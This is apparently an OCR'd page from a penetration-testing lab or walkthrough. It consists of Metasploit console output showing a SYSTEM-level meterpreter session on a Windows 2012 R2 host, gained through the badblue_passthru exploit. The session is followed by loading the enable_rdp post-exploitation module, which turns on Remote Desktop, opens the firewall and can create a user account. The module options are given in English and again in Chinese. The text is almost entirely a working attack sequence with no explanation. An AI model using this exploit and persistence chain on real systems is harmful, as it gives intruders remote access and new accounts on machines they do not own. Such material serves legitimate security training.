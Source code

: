 ```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows

```

```
msf5 exploit(windows/http/badblue_passthru) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-OMCNBKR66MN  10.10.21.5:4444 -> 10.0.31.240:49231 (10.0.31.240)

msf5 exploit(windows/http/badblue_passthru) > search enable_rdp

Matching Modules
================

   #  Name                            Disclosure Date  Rank    Check  Description
   -  ----                            ---------------  ----    -----  -----------
   0  post/windows/manage/enable_rdp                   normal  No     Windows Manage Enable Remote Desktop
```

```
msf5 exploit(windows/http/badblue_passthru) > use post/windows/manage/enable_rdp
msf5 post(windows/manage/enable_rdp) > show options

Module options (post/windows/manage/enable_rdp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ENABLE    true             no        Enable the RDP Service and Firewall Exception.
   FORWARD   false            no        Forward remote port 3389 to local Port.
   LPORT     3389             no        Local port to forward remote connection.
   PASSWORD                   no        Password for the user created.
   SESSION                    yes       The session to run this module on.
   USERNAME                   no        The username of the user to create.

```

```
模块选项（post/windows/manage/enable_rdp）：

名称    当前设置        需要的  说明
----    -------------- ------ ----------
ENABLE  true           no     启用 RDP 服务和防火墙例外。
FORWARD false          no     将远程端口 3389 转发到本地端口。
LPORT   3389           no     用于转发远程连接的本地端口。
PASSWORD               no     创建的用户的密码。
SESSION                yes    运行此模块的会话。
USERNAME               no     要创建的用户的用户名。
```
